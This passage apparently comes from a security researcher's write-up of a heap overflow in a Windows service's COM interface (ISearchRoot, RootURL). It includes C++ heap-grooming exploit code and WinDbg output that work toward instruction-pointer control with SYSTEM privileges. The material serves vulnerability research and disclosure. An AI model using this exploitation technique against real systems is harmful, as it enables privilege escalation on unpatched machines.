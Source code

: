 Okay, now we created a crash!

As expected, a heap overflow occurred while StringCchCopyW function copied RootURL data.

![crash](https://user-images.githubusercontent.com/39076499/77615795-8adec980-6f73-11ea-90f1-aa6db29ec21a.png)


### Exploit (until EIP Control)

Since Windows service basically operates under NT AUTHORITY SYSTEM privilege, it is possible to write executable code with elevated privileges if Window service has a vulnerability.

In this section, we will demonstrate some of the possibilities of code execution. Finally, acquiring a shell requires more COM knowledge. However, we will show that even without knowledge of COM, EIP control is easily possible.

Despite the Win 7 environment, it was very difficult for the client to manage the server heap. We tried diligently to control the heap, and we succeeded in putting controllable objects on the heap. (In fact, this wasn't a Win7 issue, it was a COM issue.)

We programed the code like this:

```cpp
    int wmain(int argc, wchar_t *argv[])
    {
    	CoInitializeEx(NULL, COINIT_MULTITHREADED | COINIT_DISABLE_OLE1DDE);
    	ISearchRoot *pISearchRoot[20];
    	for (int i = 0; i < 20; i++) {
    		HRESULT hr = CoCreateInstance(CLSID_CSearchRoot, NULL, CLSCTX_ALL, IID_PPV_ARGS(&pISearchRoot[i]));
    	}
    	pISearchRoot[3]->Release();
    	pISearchRoot[5]->Release();
    	pISearchRoot[7]->Release();
    	pISearchRoot[9]->Release();
    	pISearchRoot[11]->Release();

    	if (1)
    	{
    		wcout << L"Tread Start!!!." << endl;
    		HANDLE t1 = CreateThread(NULL, 0, test_thread_01, (LPVOID)pISearchRoot[13], 0, NULL);
    		HANDLE t2 = CreateThread(NULL, 0, test_thread_02, (LPVOID)pISearchRoot[13], 0, NULL);
    		WaitForSingleObject(t1, 500);
    	}
    	CoUninitialize();
    	return 0;
    }
```

We completed the analysis and found that if the client did not release the pISearchRoot object, an IRpcStubBuffer objects would remain on the server heap. And we also saw that the IRpcStubBuffer object remained near the location of the heap where the vulnerability occurs!

```
    0:010> !heap -p -all
    ...
    03d58f10 0005 0005  [00]   03d58f18    0001a - (busy)     <-- CoTaskMalloc return
    	mssprxy!_idxpi_IID_Lookup <PERF> (mssprxy+0x75)
    03d58f38 0005 0005  [00]   03d58f40    00020 - (free)
    03d58f60 0005 0005  [00]   03d58f68    0001c - (busy)     <-- IRpcStubBuffer Obj
      ? mssprxy!_ISearchRootStubVtbl+10
    03d58f88 0005 0005  [00]   03d58f90    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       <-- IRpcStubBuffer Obj
    03d58fb0 0005 0005  [00]   03d58fb8    00020 - (busy)
    03d58fd8 0005 0005  [00]   03d58fe0    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       <-- IRpcStubBuffer Obj
    03d59000 0005 0005  [00]   03d59008    0001c - (busy)
      ? mssprxy!_ISearchRootStubVtbl+10                       <-- IRpcStubBuffer Obj
```
